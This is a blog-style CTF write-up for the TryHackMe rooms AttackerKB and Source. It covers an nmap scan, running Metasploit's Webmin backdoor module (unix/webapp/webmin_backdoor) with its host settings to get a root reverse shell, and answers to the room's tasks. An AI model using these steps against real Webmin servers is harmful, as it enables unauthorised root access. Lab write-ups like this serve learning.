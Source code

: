 ```yaml
---
layout: post
title: AttackerKB & Source | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-11 18:42:53 +0800'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```


 Hallå gubbar , Today i will show you how easy this boxes are in a very simple explanation both [AttackerKB](https://tryhackme.com/room/attackerkb) &  [Source](https://tryhackme.com/room/source).
 




`1 - Enumeration`
`2 - Exploitation`
`3-  Reverse shell`
`4-AttackerKB Tasks`


### 1 - Enumerationnmap scan :

> nmap -T4 -A -v -Pn Box-ip

Results:



> PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| 256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_ 256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open http MiniServ 1.890 (Webmin httpd)


### 2 - Exploitation
Source and AttackerKB:

One of the attached files of vulnerability is metasploit module that will allow us reverse shell the box so let open Metasploit


[https://github.com/rapid7/metasploit-framework/pull/12219]()


using this command:




> msfconsole

then search "the exploit name or version"





then choose > unix/webapp/webmin_backdoor








> RHOSTS : Box-ip

RPORT: Box-port

LHOST: Your-ip

SSL : 1


### 3- Reverse shell


volia session opened we are root so let check the hints and hunt the flags

User Flag:




Root Flag:



### 4-AttackerKB Tasks:

Task 2 -Discovering the Lay of the Land :

From Nmap results we can find all our answers .....

Answers: 



`2-Webmin`

`3-1.890`

`4- from cert bellow figure it out`

### Task 3 - learning to fly:
Just explore Attackerkb then we will be able to answer the following "important to copy directly from Attackerkb site 

Answers: 

`3 1.890 

`4 supply chain`
 
`5 aug172019`

`6 githubfileinthetitle`



See you next time .....
